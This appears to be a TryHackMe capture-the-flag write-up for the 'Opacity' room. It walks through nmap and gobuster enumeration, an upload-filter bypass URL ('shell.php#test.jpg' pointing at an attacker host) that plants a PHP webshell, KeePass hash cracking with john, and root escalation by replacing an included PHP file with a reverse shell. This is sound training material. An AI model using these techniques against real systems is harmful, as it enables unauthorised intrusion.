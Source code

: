 ```yaml
---
title: "Opacity"
date: 2025-02-14
image: /assets/img/tryhackme/Opacity/Opacity_image.jpg
description: Writeup of the TryHackMe-CTF Opacity
categories: [Tryhackme, Easy]
tags: [linux, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Opacity</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Opacity is a Boot2Root made for pentesters and cybersecurity enthusiasts.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/opacity">https://tryhackme.com/room/opacity</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Opacity.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.42.149                       
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:23 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.043s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT    STATE SERVICE
  22/tcp  open  ssh
  80/tcp  open  http
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Nmap done: 1 IP address (1 host up) scanned in 35.25 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,139,445 10.10.42.149
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 06:24 EST
  Nmap scan report for 10.10.42.149
  Host is up (0.039s latency).

  PORT    STATE SERVICE     VERSION
  22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
  |   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
  |_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
  80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
  | http-cookie-flags: 
  |   /: 
  |     PHPSESSID: 
  |_      httponly flag not set
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  | http-title: Login
  |_Requested resource was login.php
  139/tcp open  netbios-ssn Samba smbd 4.6.2
  445/tcp open  netbios-ssn Samba smbd 4.6.2
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Host script results:
  | smb2-time: 
  |   date: 2025-02-14T11:24:26
  |_  start_date: N/A
  |_clock-skew: -6s
  |_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 13.89 seconds
```
From here I proceeded the analysis port by port.

## Port 445 Analysis

I analyzed the service with enum4linux, but didn't found any leads to proceed with.

## Port 80 Analysis

The webserver had a login page:

![Webserver Login](/assets/img/tryhackme/Opacity/thm_opacity_1.jpg)

Lacking information about potential credential combinations, I proceeded with a directory enumeration:
```bash
$ gobuster dir --url http://10.10.42.149/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://10.10.42.149/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /css                  (Status: 301) [Size: 310] [--> http://10.10.42.149/css/]
  /cloud                (Status: 301) [Size: 312] [--> http://10.10.42.149/cloud/]
```

### /cloud Analysis

Navigating to `/cloud` revealed an upload dialog:

![Webserver Upload](/assets/img/tryhackme/Opacity/thm_opacity_2.jpg)

Above the input field, a small text read `External Link`. I started an HTTP server using Python and provided the URL for a test image. The image was displayed on the webpage, and the direct link was revealed. I continued trying to upload a webshell. After testing several input filter bypasses I was able to upload a php shell with the following bypass:
```html
http://[attackerip]/shell.php#test.jpg
```

![Webserver Uploaded Webshell](/assets/img/tryhackme/Opacity/thm_opacity_3.jpg)

```bash
$ whoami      
  www-data
$ cd /home
$ ls
  sysadmin
$ cd sysadmin
$ ls
  local.txt
  scripts
$ cat local.txt
  cat: local.txt: Permission denied
```

## Port ### Analysis

## Privilege Escalation sysadmin

I searched for files which belonging to `sysadmin` which revealed an interesting file:
```bash
www-data@opacity:/home/sysadmin$ find / -user sysadmin -type f 2>/dev/null
/opt/dataset.kdbx
```

After downloading the file I used `john` for cracking the password:

```bash
$ keepass2john dataset.kdbx > hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
  [removed]        (dataset)     
  Session completed.
```

With the password I was able to open the Keepass file and found the password for user `sysadmin`. 

![Keepass](/assets/img/tryhackme/Opacity/thm_opacity_4.jpg)

I successfully connected using `ssh`:

```bash
sysadmin@opacity:~$ cat local.txt 
  [removed]
```

## Privilege Escalation root

The user `sysadmin` had a folder called `scripts` in his home directory. The permissions are interesting:
```bash
drwxr-xr-x 2 sysadmin root     4096 Feb 14 17:51 lib
-rw-r----- 1 root     sysadmin  519 Jul  8  2022 script.php
```

This allowed the sysadmin user to modify anything within the lib directory, while `script.php` was executed with root privileges. I searched for a connection inside of the `script.php` and found the following command:
```php
require_once('lib/backup.inc.php');
```

I renamed the `backup.inc.php` file and created a new one which was a php reverse shell. Shortly after, I received an incoming connection:

```bash
# whoami
	root
# cd /root
# ls
  proof.txt
  snap
# cat proof.txt
  [removed]
```

solved! :)
